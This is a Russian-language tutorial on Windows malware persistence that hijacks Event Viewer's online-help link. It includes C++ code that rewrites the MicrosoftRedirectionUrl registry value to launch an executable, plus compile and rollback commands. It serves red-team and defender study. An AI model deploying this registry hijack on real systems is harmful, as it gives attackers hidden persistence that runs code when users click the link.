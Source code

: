 \newpage
\subsection{80. разработка вредоносного ПО: закрепление (persistence) - часть 14. Ссылка на справку в Event Viewer. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/74/2022-10-09_05-28.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через замену ссылки на справку в Windows Event Viewer.     

### ссылка на справку в Event Viewer

Event Viewer в Windows существует уже более десяти лет. Он анализирует ограниченное количество журналов, которые Windows ведет на вашем компьютере. Эти журналы представляют собой текстовые файлы в формате `XML`, содержащие обычный текст.     

![pers](./images/74/2022-10-09_05-10.png){width="80%"}    

В качестве части своего интерфейса Event Viewer предоставляет ссылку на *Event Log Online Help*:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

При нажатии открывается стандартная справочная ссылка Microsoft, которая определена в реестре Windows по адресу `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](./images/74/2022-10-09_05-13.png){width="80%"}    

Как вы, возможно, догадались, логично предположить, что значение ключа `MicrosoftRedirectionURL` можно изменить в интересах злоумышленника. В этом и заключается трюк.    

### практический пример

Рассмотрим практический пример. Во-первых, как обычно, создадим вредоносное приложение, `meow-meow` "вредоносное ПО" (`hack.cpp`):    

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Затем создаем программу для закрепления (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = 
  "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event 
    // Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d 
    // "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста: просто обновляем значение ключа реестра на `file://Z:\2022-10-09-malware-pers-14\hack.exe`.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем "вредоносное ПО":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_17-31.png){width="80%"}    

Проверяем корректность:    

![pers](./images/74/2022-10-09_05-38_1.png){width="80%"}    

Теперь компилируем скрипт закрепления:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_05-24.png){width="80%"}    

Проверяем стандартные значения ключей реестра на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](./images/74/2022-10-09_05-25.png){width="80%"}    

Затем также запускаем на машине жертвы - `Windows 10 x64`:    

```powershell
.\pers.exe
```    

![pers](./images/74/2022-10-09_05-26.png){width="80%"}    

Наконец, снова пробуем нажать на ссылку *Event Log Online Help*:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

![pers](./images/74/2022-10-09_05-27.png){width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

![pers](./images/74/2022-10-09_05-34.png){width="80%"}    

![pers](./images/74/2022-10-09_05-30.png){width="80%"}    

Это означает, что при нажатии на ссылку запускается `mmc.exe`, который, в свою очередь, инициирует вредоносное поведение.    

Для отката, после окончания экспериментов, выполните:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v \
"MicrosoftRedirectionUrl" /t REG_SZ /d \
"http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](./images/74/2022-10-09_05-38.png){width="80%"}    

Или просто восстановите виртуальную машину.     

> Это метод закрепления на уровне администратора, поэтому он работает только при наличии прав администратора.       

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)        
